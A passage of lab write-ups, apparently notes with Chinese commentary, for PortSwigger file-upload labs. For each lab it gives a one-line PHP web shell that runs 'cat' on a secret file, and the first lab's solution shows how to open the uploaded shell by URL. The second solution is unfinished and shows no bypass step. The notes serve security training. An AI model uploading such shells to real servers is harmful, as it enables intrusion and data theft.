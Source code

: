 # File upload vulnerabilities


## [Lab: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
### 題目敘述
 This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter` 

### 題目解釋
使用提供的帳密登入後可以傳圖片，試著傳 Shell 來讀 `/home/carlos/secret`

### 解答
```
echo '<?php system("cat /home/carlos/secret") ?>' > s.php
```

然後直接傳

再到 

```
https://acb81f761fac47d9c0edd1190089005e.web-security-academy.net/files/avatars/s.php
```

觀察，就能看到檔案內容

## [Lab: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
### 題目敘述
 This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
限制 Content-Type

### 解答
```
echo '<?php system("cat /home/carlos/secret") ?>' > s.php
```
